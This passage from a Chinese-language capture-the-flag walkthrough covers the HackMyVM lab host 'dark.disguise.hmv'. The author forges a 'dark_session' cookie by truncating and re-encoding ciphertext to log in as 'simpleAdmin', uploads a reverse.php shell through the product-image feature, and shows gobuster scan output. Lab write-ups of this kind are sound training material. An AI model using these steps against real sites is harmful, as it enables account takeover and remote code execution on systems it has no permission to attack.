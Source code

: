 6. 取第一个16字节的密文 `fb5f b7fc dc42 2dc2 11d0 9abd a83b 9d17`。

7. 将此16字节密文进行Base64编码：

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx]
   └─$ echo "+1+3/NxCLcIR0Jq9qDudF8JwkfrsOdSxW16pbszGJLY=" | base64 -d | head -c 16 | base64
   +1+3/NxCLcIR0Jq9qDudFw==
   ```

8. 将得到的Base64编码后的字符串 `%2B1%2B3%2FNxCLcIR0Jq9qDudFw%3D%3D` (注意URL编码) 设置为 `dark_session` Cookie的值。

9. 访问 `http://dark.disguise.hmv/profile.php`，成功以 `simpleAdmin` 用户身份登录。
   ![image-20250516163748655](https://7r1UMPH.top/image/20250516163749012.webp)
   这波操作，来之不易啊！

### 六、获取WebShell

以`simpleAdmin`身份登录后，进入后台管理页面 (`/manager/index.php`)，发现有添加商品的功能，并且可以上传商品图片。先上传了一个reverse.php
![image-20250516164155309](https://7r1UMPH.top/image/20250516164155596.webp)

到首页查看源码，进入图片网址发现这个方式进入的不解析php

首先使用`gobuster`对 `dark.disguise.hmv` 站点进行目录扫描，确认图片上传路径。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ gobuster dir -u http://dark.disguise.hmv -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,md,html,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dark.disguise.hmv
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,md,html,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 282]
/.php                 (Status: 403) [Size: 282]
/images               (Status: 301) [Size: 323] [--> http://dark.disguise.hmv/images/]
/index.php            (Status: 200) [Size: 1020]
/login.php            (Status: 200) [Size: 1134]
# ... (部分输出) ...
/captcha.php          (Status: 200) [Size: 370]
^C
[!] Keyboard interrupt detected, terminating.
Progress: 20066 / 1323360 (1.52%)
===============================================================
Finished
===============================================================
```
